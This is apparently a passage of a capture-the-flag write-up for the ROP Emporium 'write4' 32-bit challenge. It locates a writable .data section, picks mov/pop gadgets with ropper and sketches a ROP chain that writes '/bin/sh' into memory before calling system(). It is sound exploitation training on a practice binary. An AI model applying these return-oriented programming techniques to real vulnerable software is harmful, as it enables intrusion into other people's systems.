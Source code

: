 I just assume `pwnme()` has the usual buffer overflow. `usefulFunction` doesn't seem so useful at all, but it does hint at the fact that we need to call `system()` later. Cool.

Now we need to find a spot in memory that we can write to.
```shell
[0x08048480]> iS
[Sections]
Nm Paddr       Size Vaddr      Memsz Perms Name
00 0x00000000     0 0x00000000     0 ---- 
...
19 0x00000f08     4 0x08049f08     4 -rw- .init_array
20 0x00000f0c     4 0x08049f0c     4 -rw- .fini_array
21 0x00000f10     4 0x08049f10     4 -rw- .jcr
22 0x00000f14   232 0x08049f14   232 -rw- .dynamic
23 0x00000ffc     4 0x08049ffc     4 -rw- .got
24 0x00001000    40 0x0804a000    40 -rw- .got.plt
25 0x00001028     8 0x0804a028     8 -rw- .data
26 0x00001030     0 0x0804a040    44 -rw- .bss
...

[0x08048480]> 
```

Seeing as our string "/bin/sh " is 8 bytes in length, I chose the .data section to write the string to as it has the perfect size.

Now, let's use ropper to find some gadgets that we might be able to use.
```shell
~/Documents/ropemporium/write4/32write4# ropper -f write432
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%



Gadgets
=======


...
0x08048670: mov dword ptr [edi], ebp; ret; 
...
0x080486da: pop edi; pop ebp; ret; 
...
```

It took me a little bit to find two gadgets that matched the registers, but I ended up finding these `mov` and `pop` gadgets that would work perfectly.

Now, let's try to build the ROP chain. I like to do this on paper first (which I've already done). I will show the ROP chain then explain it. The stack goes from top to bottom, with lower memory addresses on the top and higher memory addresses on the bottom.

```shell
|  # Write the "/bin" string to the .data section
|
|  {AAAAAAAAA_buffer_overflow_str}
|  {pop_edi_pop_ebp_ret_gadget_addr}
|  {addr_of_.data_section_in_memory}
|  {the_/bin_string}
|  {mov_[edi]_ebp_ret_gadget_addr}
|  
|  # Now repeat the same thing for the "/sh " string
|
|  {pop_edi_pop_ebp_ret_gadget_addr}
|  {addr_of_.data_section_in_memory_plus_0x4}
|  {the_/sh_string}
```
